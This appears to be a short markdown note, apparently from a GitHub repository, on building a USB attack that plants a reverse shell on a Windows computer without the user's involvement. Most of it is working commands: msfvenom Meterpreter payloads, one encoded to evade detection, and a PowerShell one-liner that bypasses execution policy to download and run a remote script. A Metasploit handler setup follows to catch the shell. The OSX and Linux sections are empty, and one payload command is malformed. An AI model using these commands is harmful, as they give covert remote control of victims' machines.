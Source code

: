 # Objective

Create a usb which deploys a reverse shell in a computer without user interaction and as fast as possible

# Payload creation

## Windows

For creating a 32-bit payload that works in both 32-bit and 64-bit windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -f psh LHOST="<IP>" LPORT=1337 -o <filename.ps1>

# Generate .exe
msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST="<IP>" 10.0.0.101 LPORT=1337 -o asdf.exe

# Generate .ps1
msfvenom –p windows/meterpreter_reverse_http -f psh -a x86 --platform Windows LHOST=10.0.0.101 LPORT=1337 -e x86/shikata_ga_nai > asdf.ps1

```

For using it in Windows:

```bash
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -NoExit -File asdf.ps1

# This is the one who works
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -NoExit -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.0.0.101:3333/asdf.ps1'))"
```

## OSX

## Linux

# Handler

```bash
msfconsole
use exploit/multi/Handler
set lhost <ip>
set lport 1337
exploit
# sessions -l
```

# Links

[https://getpocket.com/a/read/1858845501](https://getpocket.com/a/read/1858845501)
